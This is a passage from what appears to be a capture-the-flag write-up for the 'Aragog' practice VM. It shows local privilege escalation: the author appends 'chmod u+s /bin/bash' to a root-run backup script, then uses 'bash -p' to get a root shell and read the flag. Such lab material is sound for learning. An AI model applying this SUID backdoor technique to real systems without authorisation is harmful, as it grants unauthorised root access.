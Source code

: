 ```bash
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads 
hagrid98@Aragog:/$ 
```


```bash
hagrid98@Aragog:/$ ls -l /tmp
total 12
drwx------ 3 root root 4096 Apr 20 22:48 systemd-private-1a2aa0f64ccf4c09ab8cccd32f19c626-apache2.service-Rl55VT
drwx------ 3 root root 4096 Apr 20 22:48 systemd-private-1a2aa0f64ccf4c09ab8cccd32f19c626-systemd-timesyncd.service-l9HIoe
drwxr-xr-x 5 root root 4096 Apr 20 22:52 tmp_wp_uploads
```

```bash
  GNU nano 3.2                                                                                                         /opt/.backup.sh                                                                                                                    

#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads 


chmod u+s /bin/bash

```
now if everything works we just have to monitoring the bash using watch command.

```bash
hagrid98@Aragog:/$ watch -n 1 ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```
and now the permission changed rwsr, we just have to change the privilages of the bash using bash -p.
.
```bash
hagrid98@Aragog:/$ bash -p
bash-5.0# whoami
root
```
flag

```bash
bash-5.0# cd /root/
bash-5.0# ls
horcrux2.txt
bash-5.0# cat horcrux2.txt 
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   


Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Easy
Machine Name: Aragog 
Horcruxes Hidden in this VM: 2 horcruxes

You have successfully pwned Aragog machine.
Here is your second hocrux: horcrux_{MjogbWFSdm9MbyBHYVVudCdzIHJpTmcgZGVTdHJPeWVkIGJZIERVbWJsZWRPcmU=}
```